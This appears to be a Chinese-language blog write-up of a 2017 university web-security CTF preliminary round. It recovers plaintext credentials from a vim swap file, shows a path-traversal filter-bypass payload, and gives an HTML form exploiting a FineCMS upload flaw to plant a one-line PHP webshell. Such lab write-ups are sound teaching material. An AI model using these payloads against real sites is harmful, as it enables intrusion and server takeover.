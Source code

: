 ```yaml
---
title: 2017 全国大学生软件测试大赛web安全赛预赛 WriteUp
tags:
  - CTF
  - WriteUp
  - 文件包含
  - 编辑器泄露
date: 2017-10-23 20:20:13
---
```


其实就是慕测安恒杯
6月18日的夏季预赛线上赛，9月22日更新babysql，10月12日更新findpwd、服务发现、babylogin
10月23更新秋季预赛题目


# 夏季预赛

## 根据ip查dns解析记录

题目原意是让我们用cmd的nslookup命令，我直接上dns反查网站查的

到这个网站查dns解析[https://www.boip.net/ipv4/](https://www.boip.net/ipv4/)

flag为`this-is-flag`

## 编辑器泄露

题目提示编辑器泄露,fuzz后下载到了`login.php.swp`，用`vim -r login.php.swp`恢复得到源码，看到明文账号密码，
```php
if ($userin=="admin94wo")
if($passin=="ca1buda0mima7ah4ha")
```
用账号密码登录login.php得到flag，`flag{b4ckup_1s_normal}`

## babywaf

fuzz后发现 &lt; 被过滤了，构造post file=.&lt;./.&lt;./.&lt;./.&lt;./.&lt;./flag 提交得到flag，`flag{To0_young_2_simple!}`

## 综合渗透

题目提示让我们复现exp，该站用的是`finecms`

百度得到此cms的一个上传漏洞，构造html文件如下，上传一个`phtml`后缀的一句话上去，菜刀连接在`/flag`得到flag，`flag{o1d_bug_t0_send_point!}`

```html
<!DOCTYPE html>
<html>
    <head>
    <meta charset=”utf-8″>
    <title>Finecms ajaxswfupload exp</title>
    </head>
    <body>
        <form action=”http://114.55.88.132:20580/index.php?c=attachment&a=ajaxswfupload” method=”POST” enctype=”multipart/form-data”>
            <input type=”file” name=”Filedata”>
            <input type=”hidden” name=”type” value=”phtml”>
            <input type=”hidden” name=”size” value=”100″>
            <input type=”submit” name=”submit” value=”上传文件”>
        </form>
    </body>
</html>
```